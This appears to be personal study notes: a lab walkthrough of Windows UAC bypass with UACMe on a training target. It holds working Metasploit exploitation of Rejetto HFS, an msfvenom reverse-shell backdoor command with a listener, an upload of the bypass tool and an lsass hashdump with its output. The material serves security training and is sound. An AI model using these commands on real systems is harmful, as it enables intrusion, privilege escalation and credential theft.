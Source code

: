 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/System - Host Based Attacks/Windows Privilege Escalation/Windows Privilege Escalation]]"
---
```


# 🧪 UAC Bypass UACMe

## Overview

A Kali GUI machine and a target machine running a vulnerable server are provided to you. The IP address of the target machine is provided in a text file named target placed on the Desktop of the Kali machine (/root/Desktop/target). 

Your task is to fingerprint the application using the tools available on the Kali machine and exploit the application using the appropriate Metasploit module.

Then, bypass [UAC](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works)using the [UACME](https://github.com/hfiref0x/UACME) tool. 

**UACME:**

- Defeat Windows User Account Control (UAC) and get Administrator privileges.
- It abuses the built-in Windows AutoElevate executables.
- It has 65+ methods that can be used by the user to bypass UAC depending on the Windows OS version.
- Developed by https://twitter.com/hFireF0X
- Written majorly in C, with some code in C++

**Objective:** Gain the highest privilege on the compromised machine and get admin user NTLM hash.

**Instructions:**

- Your Kali machine has an interface with IP address 10.10.X.Y. Run “ip addr” to know the values of X and Y.
- The IP address of the target machine is mentioned in the file “/root/Desktop/target”
- Do not attack the gateway located at IP address 192.V.W.1 and 10.10.X.1

## Solution

```bash
nmap -sV -p- -T5 10.2.19.202
Starting Nmap 7.91 ( https://nmap.org ) at 2024-03-26 04:09 IST
Nmap scan report for 10.2.19.202
Host is up (0.0024s latency).
Not shown: 65521 closed ports
PORT      STATE SERVICE            VERSION
80/tcp    open  http               HttpFileServer httpd 2.3
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49165/tcp open  msrpc              Microsoft Windows RPC
49174/tcp open  msrpc              Microsoft Windows RPC
49181/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 82.75 seconds
```

```bash
msfconsole -q
msf6 > use exploit/windows/http/rejetto_hfs_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.2.19.202
RHOSTS => 10.2.19.202
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.11.2:4444 
[*] Using URL: http://0.0.0.0:8080/V3Pmr7dBikWAS
[*] Local IP: http://10.10.11.2:8080/V3Pmr7dBikWAS
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /V3Pmr7dBikWAS
[*] Sending stage (175174 bytes) to 10.2.19.202
[*] Meterpreter session 1 opened (10.10.11.2:4444 -> 10.2.19.202:49225) at 2024-03-26 04:14:34 +0530
[!] Tried to delete %TEMP%\zqOqexbfnKtUh.vbs, unknown result
[*] Server stopped.

meterpreter >
```

Now:

1. Generate msfvenom payload
2. Setup msf listener
3. upload backdoor.exe
4. Upload akagi64.exe to victim

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.11.2 LPORT=1234 -f exe > backdoor.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
```

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.11.2
LHOST => 10.10.11.2
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.11.2:1234 

```

```bash
meterpreter > cd C:/Temp
meterpreter > upload /root/Desktop/tools/UACME/Akagi64.exe
[*] uploading  : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] Uploaded 194.50 KiB of 194.50 KiB (100.0%): /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
[*] uploaded   : /root/Desktop/tools/UACME/Akagi64.exe -> Akagi64.exe
meterpreter > dir
Listing: C:\Temp
================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
100777/rwxrwxrwx  199168  fil   2024-03-26 04:40:38 +0530  Akagi64.exe

meterpreter > 
```

```bash
[*] Started reverse TCP handler on 10.10.11.2:1234 
[*] Sending stage (175174 bytes) to 10.2.19.202
[*] Meterpreter session 1 opened (10.10.11.2:1234 -> 10.2.19.202:49335) at 2024-03-26 04:42:30 +0530

meterpreter >
```

```bash
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > 

```

```bash
meterpreter > getuid
Server username: VICTIM\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRemoteShutdownPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTimeZonePrivilege
SeUndockPrivilege
```

```bash
meterpreter > hashdump
[-] 2007: Operation failed: The parameter is incorrect.
meterpreter > pgrep lsass
688
meterpreter > migrate 688
[*] Migrating from 2936 to 688...
[*] Migration completed successfully.
meterpreter > hashdump
admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter > 

```

Flag is `4d6583ed4cef81c2f2ac3c88fc5f3da6`
